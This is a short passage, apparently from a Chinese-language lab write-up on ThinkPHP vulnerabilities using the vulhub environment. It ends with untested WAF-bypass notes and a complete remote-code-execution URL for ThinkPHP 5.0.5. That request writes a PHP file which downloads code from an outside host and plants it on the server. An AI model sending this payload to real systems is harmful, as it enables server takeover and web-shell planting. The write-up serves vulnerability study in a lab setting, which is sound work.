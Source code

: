 /vulhub/thinkphp/in-sqlinjection docker-compose up -d

[![img](assets/1696730460399-dca8b1b0-a626-48d7-929a-87061b96ba9b.png)](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203844896-936327005.png)

#### 验证漏洞

[![img](assets/1696730460654-5ea163a4-01e4-406f-bfb9-2598bac1ac44.png)](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203857163-724498185.png)

# 0x05 漏洞总结

下面是别人总结绕过的，未测试。

## 5.1 thinkphp 5.0.5

```plain
waf对eval进行了拦截
禁止了assert函数
对eval函数后面的括号进行了正则过滤
对file_get_contents函数后面的括号进行了正则过滤

http://www.xxxx.com/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=2.php&vars[1][1]=<?php /*1111*//***/file_put_contents/*1**/(/***/'index11.php'/**/,file_get_contents(/**/'https://www.hack.com/xxx.js'))/**/;/**/?>
```
